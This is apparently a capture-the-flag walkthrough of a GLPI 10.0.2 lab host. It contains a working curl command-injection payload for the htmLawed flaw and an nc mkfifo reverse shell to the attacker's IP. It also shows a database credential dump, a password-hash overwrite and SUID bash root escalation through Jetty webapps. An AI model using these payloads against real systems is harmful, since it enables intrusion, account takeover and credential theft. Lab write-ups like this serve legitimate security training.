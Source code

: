 `Running all scans on 192.168.190.242`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

`---------------------Starting Script Scan-----------------------`

`PORT   STATE SERVICE VERSION`
`22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)`
`|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)`
`|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)`
`80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))`
`|_http-title: Authentication - GLPI`
`|_http-server-header: Apache/2.4.41 (Ubuntu)`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

![[Pasted image 20240212144321.png]]

I remember another machine I've done had GLPI running and there are some default credentials we can try along with the usual weak ones.

Google: glpi default credentials
https://forum.glpi-project.org/viewtopic.php?id=23219

`glpi/glpi (super-admin)`  
`tech/tech`  
`postonly/postonly (only for helpdesk)`  
`normal/normal`

None of these or the usual weak credentials work.

If we google GLPI exploitdb, there are a bunch of version dependent exploits. Let's see if we can narrow down the version.

Looking at the source code for GLPI
https://github.com/glpi-project/glpi

It comes with a CHANGELOG.md. Check if ours has that.
http://192.168.190.242/CHANGELOG.md

We can see the version is 10.0.2.

Google glpi 10.0.2 exploitdb and go to the first result.
https://www.exploit-db.com/exploits/51233
We try this exploit but see it's not working - at the top of the exploit it even says it depends on configuration.

The second result on google is a command injection exploit.
https://packetstormsecurity.com/files/169501/GLPI-10.0.2-Command-Injection.html

Let's glance through the code, see what it does.
It needs this resource -  `/vendor/htmlawed/htmlawed/htmLawedTest.php`

On our target, that is at the root of the domain so we don't need the target_URI option in metasploit.

`msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set LHOST 192.168.45.235`
`LHOST => 192.168.45.235`
`msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set RHOSTS 192.168.190.242`
`RHOSTS => 192.168.190.242`
`msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set TARGET_URI ''`

`msf6 exploit(linux/http/glpi_htmlawed_php_injection) > run`

`[*] Started reverse TCP handler on 192.168.45.235:4444` 
`[*] Running automatic check ("set AutoCheck false" to disable)`
`[+] The target appears to be vulnerable.`
`[*] Executing Nix Command for cmd/unix/python/meterpreter/reverse_tcp`
`[*] Exploit completed, but no session was created.`

It tells us the machine is vulnerable so let's keep looking at this exploit.

We find this guide on how the exploit works:
https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/

There is this warning which explains why it's not working
![[Pasted image 20240212153155.png]]

This can be double checked looking at phpinfo - http://192.168.190.242/phpinfo.php
![[Pasted image 20240212153327.png]]

As suggested, I was able to get this working using call_user_func and array_map.
`└─$ curl -s -d 'sid=foo&text=call_user_func&hhook=array_map&hexec=passthru&spec[0]=&spec[1]=id' -b 'sid=foo' -X POST http://192.168.190.242/vendor/htmlawed/htmlawed/htmLawedTest.php`

This worked but was a little messy. To clean it up, I eliminated the before and after of the output we really want.
`└─$ curl -s -d 'sid=foo&text=call_user_func&hhook=array_map&hexec=passthru&spec[0]=&spec[1]=id' -b 'sid=foo' -X POST http://192.168.190.242/vendor/htmlawed/htmlawed/htmLawedTest.php | grep -oPz '(?s)(?<=<\/form>).*?(?=<br \/><a href="htmLawedTest.php")'`

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Let's get a reverse shell.
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.235 80 >/tmp/f`
It doesn't like this so let's URL encode it since we're sending a bunch of special characters.
`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.45.222%2080%20%3E%2Ftmp%2Ff`

This works. Catch and upgrade.
`Connection from 192.168.190.242:33470.`
`bash: cannot set terminal process group (1077): Inappropriate ioctl for device`
`bash: no job control in this shell`
`www-data@glpi:/var/www/glpi/vendor/htmlawed/htmlawed$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`<ed$ python3 -c 'import pty; pty.spawn("/bin/bash")'`  
`www-data@glpi:/var/www/glpi/vendor/htmlawed/htmlawed$` 

From our Feroxbuster scan, there was this file
`500      GET        0l        0w        0c http://192.168.190.242/config/config_db.php`

But we couldn't read it earlier so let's try now that we have a foothold.
`www-data@glpi:/var/www/glpi/config$ cat config_db.php`
`cat config_db.php`
`<?php`
`class DB extends DBmysql {`
   `public $dbhost = 'localhost';`
   `public $dbuser = 'glpi';`
   `public $dbpassword = 'glpi_db_password';`
   `public $dbdefault = 'glpi';`
   `public $use_utf8mb4 = true;`
   `public $allow_myisam = false;`
   `public $allow_datetime = false;`
   `public $allow_signed_keys = false;`
`}`

Connect to the database
`www-data@glpi:/var/www/glpi/config$ mysql -u glpi -p`
`mysql -u glpi -p`
`Enter password: glpi_db_password`

`mysql> show databases;`
`show databases;`
`+--------------------+`
`| Database           |`
`+--------------------+`
`| glpi               |`
`| information_schema |`
`| performance_schema |`
`+--------------------+`
`3 rows in set (0.01 sec)`

`mysql> use glpi;`

`mysql> show tables;`

`mysql> select id,name,password,realname from glpi_users;`
`select id,name,password,realname from glpi_users;`
`+----+-------------+--------------------------------------------------------------+------------+`
`| id | name        | password                                                     | realname   |`
`+----+-------------+--------------------------------------------------------------+------------+`
`|  2 | glpi        | $2y$10$9DbdMovtCw0eI.FWm18SRu34ErQD6LUzA8AqGUqiEat0S/ahlyHFa | Montgomery |`
`|  3 | post-only   | $2y$10$dTMar1F3ef5X/H1IjX9gYOjQWBR1K4bERGf4/oTPxFtJE/c3vXILm | NULL       |`
`|  4 | tech        | $2y$10$.xEgErizkp6Az0z.DHyoeOoenuh0RcsX4JapBk2JMD6VI17KtB1lO | NULL       |`
`|  5 | normal      | $2y$10$Z6doq4zVHkSPZFbPeXTCluN1Q/r0ryZ3ZsSJncJqkN3.8cRiN0NV. | NULL       |`
`|  6 | glpi-system |                                                              | Support    |`
`|  7 | betty       | $2y$10$jG8/feTYsguxsnBqRG6.judCDSNHY4it8SgBTAHig9pMkfmMl9CFa | berta      |`
`+----+-------------+--------------------------------------------------------------+------------+`
`6 rows in set (0.00 sec)`

`www-data@glpi:/var/www/glpi/config$ cat /etc/passwd`
`betty:x:1000:1000::/home/betty:/bin/sh`

It looks like betty is our pivot user but we can't crack her password.

Let's try to change it
Generate a hash for the new password: 
https://bcrypt.online/ (use 10 for the cost factor, we can see that from the current password hash)

`update glpi_users set password = '$2y$10$QFK8S6JHbOIiqFOAUPm2CuVmH.DA5QGzW/Tfk2zXvlPbMqGYBakHK' where name = 'betty';`

After we do that, we can login to the glpi web interface
![[Pasted image 20240212165308.png]]

There is 1 solved ticket - look at it.

![[Pasted image 20240212165334.png]]

Let's try to SSH with this. It works.
`└─$ ssh betty@192.168.190.242` 
`betty@glpi:~$` 

Running linpeas we can see there is another port listening - 8080 that we can't get to.

`betty@glpi:/tmp$ netstat -ntpl`
`(Not all processes could be identified, non-owned process info`
 `will not be shown, you would have to be root to see it all.)`
`Active Internet connections (only servers)`
`Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name`    
`tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -`                   
`tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -`                   
`tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -`                   
`tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -`                   
`tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -`                   
`tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -`                   

We can see in the ticket where we got betty's password this is probably the Jetty development server.

It can be exploited for privilege escalation as found here
https://book.hacktricks.xyz/pentesting-web/file-upload

Basically any XML you create in the webapps folder executes immediately
`echo "chmod +s /bin/bash" > /tmp/root.sh`
`chmod +x /tmp/root.sh`
`cd /opt/jetty/jetty-base/webapps`
![[Pasted image 20240212173734.png]]
`betty@glpi:/opt/jetty/jetty-base/webapps$ bash -p`
`bash-5.0# whoami`
`root`
`bash-5.0# cat /root/proof.txt`
`8e79fb674be65cd01d8257aa54201230`






